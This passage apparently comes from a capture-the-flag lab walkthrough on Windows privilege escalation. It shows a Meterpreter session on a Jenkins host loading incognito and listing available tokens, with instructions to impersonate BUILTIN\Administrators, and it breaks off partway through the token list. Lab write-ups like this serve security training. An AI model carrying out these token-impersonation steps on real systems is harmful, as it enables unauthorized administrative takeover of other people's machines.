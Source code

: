 ### 3 	

To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?

    C:\Program Files (x86)\Jenkins\workspace\test>^Z
    Background channel 1? [y/N]  y
    meterpreter > use incognito

    meterpreter > list_tokens -g
    [-] Warning: Not currently running as SYSTEM, not all tokens will be available
                Call rev2self if primary process token is SYSTEM

    Delegation Tokens Available
    ========================================
    \
    BUILTIN\Administrators
    BUILTIN\Users
    NT AUTHORITY\Authenticated Users
    NT AUTHORITY\NTLM Authentication
    NT AUTHORITY\SERVICE
    NT AUTHORITY\This Organization
    NT AUTHORITY\WRITE RESTRICTED
    NT SERVICE\AppHostSvc
    NT SERVICE\AudioEndpointBuilder
    NT SERVICE\BFE
    NT SERVICE\CertPropSvc
    NT SERVICE\CscService
    NT SERVICE\Dnscache
    NT SERVICE\eventlog
    NT SERVICE\EventSystem
    NT SERVICE\FDResPub
    NT SERVICE\iphlpsvc
    NT SERVICE\LanmanServer
    NT SERVICE\MMCSS
    NT SERVICE\PcaSvc
    NT SERVICE\PlugPlay
    NT SERVICE\RpcEptMapper
    NT SERVICE\Schedule
    NT SERVICE\SENS
    NT SERVICE\SessionEnv
    NT SERVICE\Spooler
    NT SERVICE\TrkWks
    NT SERVICE\UmRdpService
    NT SERVICE\UxSms
    NT SERVICE\WdiSystemHost
    NT SERVICE\Winmgmt
    NT SERVICE\WSearch
    NT SERVICE\wuauserv

    Impersonation Tokens Available
    ========================================
    NT AUTHORITY\NETWORK
    NT SERVICE\AudioSrv
    NT SERVICE\CryptSvc
    NT SERVICE\DcomLaunch
    NT SERVICE\Dhcp
    NT SERVICE\DPS
    NT SERVICE\LanmanWorkstation
    NT SERVICE\lmhosts
    NT SERVICE\MpsSvc
    NT SERVICE\netprofm
    NT SERVICE\nsi
    NT SERVICE\PolicyAgent